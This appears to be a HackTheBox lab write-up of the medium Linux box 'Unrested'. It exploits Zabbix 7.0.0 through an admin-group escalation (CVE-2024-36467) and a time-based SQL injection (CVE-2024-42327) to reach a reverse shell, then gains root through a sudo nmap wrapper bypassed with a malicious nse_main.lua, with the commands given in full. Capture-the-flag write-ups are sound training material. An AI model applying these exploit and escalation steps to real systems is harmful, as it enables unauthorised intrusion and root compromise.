 ```yaml
---
title: HTB Unrested Writeup
description: Unrested is a medium-level Linux machine on HTB, which released on December 5, 2024.
date: 2025-01-15 11:33:00 +0800
categories: [HacktheBox, Medium]
tags: [ctf, hackthebox, linux]
math: true
mermaid: true
image:
  path: /assets/img/htb/unrested.htb/unrested.png
---
```

## Box Info
Unrested is a medium difficulty Linux machine hosting a version of Zabbix . Enumerating the version of Zabbix shows that it is vulnerable to both CVE-2024-36467 and CVE-2024-42327 which is leveraged to gain user access on the target. Post-exploitation enumeration reveals that the system has a sudo misconfiguration allowing the zabbix user to execute sudo /usr/bin/nmap , which is leveraged to gain root access.

## Recon
### Nmap

Starting with nmap scan as asual which gives port `22` and `80` open.
```console
┌─[suce@parrot]─[~/Desktop/htbMachines/medium-unrested]
└──╼ $nmap -sVC 10.10.11.50 -oA unrested
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-01-15 16:28 +03
Nmap scan report for 10.10.11.50
Host is up (0.047s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3e:ea:45:4b:c5:d1:6d:6f:e2:d4:d1:3b:0a:3d:a9:4f (ECDSA)
|_  256 64:cc:75:de:4a:e6:a5:b4:73:eb:3f:1b:cf:b4:e3:94 (ED25519)
80/tcp open  http    Apache httpd 2.4.52 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.52 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.60 seconds
```
### Port 80 - Zabbix

Zabbix is an open-source monitoring tool used to track the performance and availability of IT infrastructure, including servers, networks, applications, and devices. 

We have already credentials given from the box creator `matthew:96qzn0h2e1k3`. Let's login.

![zabbix1](/assets/img/htb/unrested.htb/zabbix.jpg){: width="800" height="500" }

We got the dashboard page. The Zabbix version can be seen as `7.0.0`. Searching the web gives us two vulnerabilities. `CVE-2024-36467` and `CVE-2024-42327`.

## Shell as zabbix user
### CVE-2024-36467

CVE-2024-36467 is a vulnerability where attacker can abuse missing access controls in the `user.update` function in `CUser.php` class to change their role to a Administrator.

To exploit, we first need to authenticate to API using `api_jsonrpc.php` and our credentials. For API usage check [**this**](https://www.zabbix.com/documentation/current/en/manual/api) link.

![burp1](/assets/img/htb/unrested.htb/burp1.jpg){: width="800" height="500" }

Successfully got a API token. Before we try `user.update` to update our roles, let's try to find our `userid`. Bruteforcing the userids also work but we can see every user id using `user.get` function. Using the selectRole or SelectUsrgrps as params returns the userlist and scrolling down, we can see `matthew` user as `userid:3`.

![burp2](/assets/img/htb/unrested.htb/burp2.jpg){: width="800" height="500" }

From the json response we can also see that Administrator role is `roleid:3` and matthew user has `roleid:1` which is probably the default user id. Let's try to set our roleid to Administrator. But we get the following error.

![burp3](/assets/img/htb/unrested.htb/burp3.jpg){: width="800" height="500" }

So it seems that we can't change our role beacuse in `CUser.php` file, `validateUpdate()` and `checkHimself()` functions checks if its our own role or not. But we also see that in user.update, we can change our `usrgroup` which doesn't have any validation placed. 

We also need to find a valid "usrgrpid" to make us Administrator. Luckily, i have seen `Zabbix Administrators` id in the manual page as `7`. This is crucial beacause it saves time from `bruteforcing` all the group ids.

![burp4](/assets/img/htb/unrested.htb/burp4.jpg){: width="800" height="500" }

Now that we have the group id, let's add our user to `Zabbix Administrators` using `user.update`. Note that without this privilege escalation, we can't perform the `SQL injection` in the upcoming part .

![burp5](/assets/img/htb/unrested.htb/burp5.jpg){: width="800" height="500" }

### CVE-2024-42327

CVE-2024-42327 is a vulnerability where attacker can perform an SQL injection in `user.get` function in `CUser.php` class which can be used to leak database content.

Using the following request, we can see that request took 5,065 ms which means our `SLEEP(5)` payload resulted with time-based sql injection.

![burp6](/assets/img/htb/unrested.htb/burp6.jpg){: width="800" height="500" }

Let's replace the sqli payload with `*` and copy the request to a file. Then dump the database using `sqlmap`.

![burp7](/assets/img/htb/unrested.htb/burp7.jpg){: width="800" height="500" }

Got a 2 results for `admin` user, we know sessionids expire after some time so trying to see which is the valid one. First sessionid works out.

![burp8](/assets/img/htb/unrested.htb/burp8.jpg){: width="800" height="500" }

Now that we have admin session, using our privileges we can get `Remote Code Execution`. Trying [**this**](https://www.exploit-db.com/exploits/39937) method on exploit-db doesn't seem to work. Another way is to use `item.create` method to execute a system command.

Hosting a simple reverse shell on port 8000 and using the command below, returns a connection.

![burp9](/assets/img/htb/unrested.htb/burp9.jpg){: width="800" height="500" }

```console
┌─[suce@parrot]─[~/Desktop/htbMachines/medium-unrested]
└──╼ $nc -lvnp 9999
listening on [any] 9999 ...
connect to [10.10.14.12] from (UNKNOWN) [10.10.11.50] 40504
bash: cannot set terminal process group (3689): Inappropriate ioctl for device
bash: no job control in this shell
zabbix@unrested:/$ 
```
User flag can be found in `/home/matthew/user.txt`

## Shell as root

Checking our sudo privileges using `sudo -l` says we can execute `/usr/bin/nmap` as root without password.

```console
zabbix@unrested:/home$ sudo -l
Matching Defaults entries for zabbix on unrested:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User zabbix may run the following commands on unrested:
    (ALL : ALL) NOPASSWD: /usr/bin/nmap *
zabbix@unrested:/home$ 
```
Trying `--script` and `--interactive` methods on [**gtfobins**](https://gtfobins.github.io/gtfobins/nmap/) but both dont work. Also gives an unusual error.

```console
zabbix@unrested:/tmp$ TF=$(mktemp)
zabbix@unrested:/tmp$ echo 'os.execute("/bin/sh")' > $TF
zabbix@unrested:/tmp$ sudo /usr/bin/nmap --script=$TF
Script mode is disabled for security reasons.
zabbix@unrested:/tmp$ nmap --interactive
Interactive mode is disabled for security reasons.
zabbix@unrested:/tmp$
```
From this we can tell this is a `modified binary` because nmap never gives this kinda error. Checking `/usr/bin/nmap`, it is indeed modified.

```console
zabbix@unrested:/tmp$ cat /usr/bin/nmap
#!/bin/bash

#################################
## Restrictive nmap for Zabbix ##
#################################

# List of restricted options and corresponding error messages
declare -A RESTRICTED_OPTIONS=(
    ["--interactive"]="Interactive mode is disabled for security reasons."
    ["--script"]="Script mode is disabled for security reasons."
    ["-oG"]="Scan outputs in Greppable format are disabled for security reasons."
    ["-iL"]="File input mode is disabled for security reasons."
)

# Check if any restricted options are used
for option in "${!RESTRICTED_OPTIONS[@]}"; do
    if [[ "$*" == *"$option"* ]]; then
        echo "${RESTRICTED_OPTIONS[$option]}"
        exit 1
    fi
done

# Execute the original nmap binary with the provided arguments
exec /usr/bin/nmap.original "$@"
zabbix@unrested:/tmp$ 
```

Basicly we have to try options other than --interactive, --script, -oG and -iL.

Reading through the nmap documentation there is a interesting option called `--datadir`. 
This option allows you to specify a data directory other than the default nmap script directory which is `/usr/share/nmap`. 
And using `-sC` option executes the --script=default which is `nse_main.lua` in /usr/share/nmap.

By crafting a malicious nse_main.lua, we got `root`.

```console
zabbix@unrested:/tmp$ echo 'os.execute("/bin/bash -p")' > nse_main.lua
zabbix@unrested:/tmp$ sudo /usr/bin/nmap -sC --datadir=/tmp
Starting Nmap 7.80 ( https://nmap.org ) at 2025-01-15 19:43 UTC
id
uid=0(root) gid=0(root) groups=0(root)
```

Root flag can be found in `/root/root.txt`